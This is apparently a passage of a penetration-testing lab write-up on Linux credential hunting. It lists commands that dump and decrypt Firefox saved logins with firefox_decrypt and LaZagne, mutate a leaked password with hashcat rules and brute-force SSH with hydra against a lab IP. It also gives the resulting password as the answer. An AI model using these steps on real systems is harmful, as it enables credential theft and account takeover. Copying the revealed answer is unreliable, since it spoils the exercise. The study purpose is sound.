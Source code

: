 cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .

python3.9 firefox\_decrypt.py

python3 laZagne.py browsers

#### Questions

**Examine the target and find out the password of the user Will. Then, submit the password as the answer.**

* HINT
  * Sometimes, we will not have any initial credentials available, and as the last step, we will need to bruteforce the credentials to available services to get access. From other hosts on the network, our colleagues were able to identify the user "Kira", who in most cases had SSH access to other systems with the password "LoveYou1". We have already provided a prepared list of passwords in the "Resources" section for simplicity's purpose.
* LoveYou1
*   Mutate the PW to obtain correct SSH login of Kira user



    * nano password.list (insert LoveYou1)
    * hashcat --force password.list -r custom.rule --stdout | sort -u > mutated.list
    * hydra -l kira -P mutated.list ssh://10.129.115.79 -t 64

    <figure><img src=".gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

    \-
* SSH to kira
  * ssh kira@10.129.115.79
    * PW: L0vey0u1!
*   BASH history

    * cat _.bash-history_
